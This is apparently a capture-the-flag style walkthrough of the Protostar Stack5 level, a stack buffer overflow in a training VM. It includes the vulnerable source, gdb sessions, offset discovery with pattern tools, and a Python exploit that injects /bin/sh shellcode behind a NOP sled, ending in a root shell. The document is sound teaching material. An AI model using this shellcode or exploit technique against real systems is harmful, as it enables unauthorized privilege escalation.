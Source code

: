 #### Stack5

###### About

- Stack5 is a standard buffer overflow, this time introducing shellcode.
- This level is at ``/opt/protostar/bin/stack5``
- Hints
	- At this point in time, it might be easier to use someone elses shellcode
	- If debugging the shellcode, use ``\xcc`` ``int3`` to stop the program executing and return to the debugger
	- Remove the int3s once your shellcode is done

``stack5.c``

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

###### Solution

```sh
user@protostar:/opt/protostar/bin$ ./stack5
AAAAAA
user@protostar:/opt/protostar/bin$
```

```sh
user@protostar:/opt/protostar/bin$ python -c "print 'A'*100" | ./stack5
Segmentation fault
user@protostar:/opt/protostar/bin$
```

```sh
root@kali:~# /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
root@kali:~#
```

```sh
user@protostar:/opt/protostar/bin$ python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A'" | ./stack5
Segmentation fault
user@protostar:/opt/protostar/bin$
```

```sh
user@protostar:/opt/protostar/bin$ echo "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A" > /tmp/pay
```

```sh
user@protostar:/opt/protostar/bin$ gdb ./stack5 -q
Reading symbols from /opt/protostar/bin/stack5...done.
(gdb) run < /tmp/pay
Starting program: /opt/protostar/bin/stack5 < /tmp/pay

Program received signal SIGSEGV, Segmentation fault.
0x63413563 in ?? ()
(gdb)
```

```sh
root@kali:~# /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 63413563
[*] Exact match at offset 76
root@kali:~#
```

```/tmp/buf.py```

```python
import struct

buf = "A" * 76
buf += struct.pack("<I",0xd3adc0d3)

print buf
```

```sh
user@protostar:/opt/protostar/bin$ python /tmp/buf.py > /tmp/out
```

```sh
user@protostar:/opt/protostar/bin$ gdb ./stack5 -q
Reading symbols from /opt/protostar/bin/stack5...done.
(gdb) run < /tmp/out
Starting program: /opt/protostar/bin/stack5 < /tmp/out

Program received signal SIGSEGV, Segmentation fault.
0xd3adc0d3 in ?? ()
(gdb)
```

```sh
user@protostar:/opt/protostar/bin$ gdb ./stack5 -q
Reading symbols from /opt/protostar/bin/stack5...done.
(gdb) set disassembly-flavor intel
(gdb) disassemble main
Dump of assembler code for function main:
0x080483c4 <main+0>:	push   ebp
0x080483c5 <main+1>:	mov    ebp,esp
0x080483c7 <main+3>:	and    esp,0xfffffff0
0x080483ca <main+6>:	sub    esp,0x50
0x080483cd <main+9>:	lea    eax,[esp+0x10]
0x080483d1 <main+13>:	mov    DWORD PTR [esp],eax
0x080483d4 <main+16>:	call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:	leave
0x080483da <main+22>:	ret
End of assembler dump.
(gdb) b *0x080483da
Breakpoint 1 at 0x80483da: file stack5/stack5.c, line 11.
(gdb) define hook-stop
Type commands for definition of "hook-stop".
End with a line saying just "end".
>x/1i $eip
>x/8wx $esp
>end
(gdb) r
Starting program: /opt/protostar/bin/stack5
AAAAA
0x80483da <main+22>:	ret
0xbffff7bc:	0xb7eadc76	0x00000001	0xbffff864	0xbffff86c
0xbffff7cc:	0xb7fe1848	0xbffff820	0xffffffff	0xb7ffeff4

Breakpoint 1, 0x080483da in main (argc=134513604, argv=0x1) at stack5/stack5.c:11
11	stack5/stack5.c: No such file or directory.
	in stack5/stack5.c
(gdb) si
0xb7eadc76 <__libc_start_main+230>:	mov    DWORD PTR [esp],eax
0xbffff7c0:	0x00000001	0xbffff864	0xbffff86c	0xb7fe1848
0xbffff7d0:	0xbffff820	0xffffffff	0xb7ffeff4	0x08048232
__libc_start_main (main=0x80483c4 <main>, argc=1, ubp_av=0xbffff864, init=0x80483f0 <__libc_csu_init>, fini=0x80483e0 <__libc_csu_fini>, rtld_fini=0xb7ff1040 <_dl_fini>, stack_end=0xbffff85c)
    at libc-start.c:260
260	libc-start.c: No such file or directory.
	in libc-start.c
(gdb)
```

![](images/5/1.png)

![](images/5/2.png)

```/tmp/buf.py```

```python
import struct

padding = "A" * 76
eip = struct.pack("I",0xbffff7c0)
nopsled = "\x90"*100
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"

print padding+eip+nopsled+shellcode
```

```sh
user@protostar:/tmp$ python buf.py | /opt/protostar/bin/stack05
bash: /opt/protostar/bin/stack05: No such file or directory
close failed in file object destructor:
Error in sys.excepthook:

Original exception was:
user@protostar:/tmp$
```

```sh
user@protostar:/tmp$ (python buf.py;cat) | /opt/protostar/bin/stack5
whoami
root
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
^C
user@protostar:/tmp$
```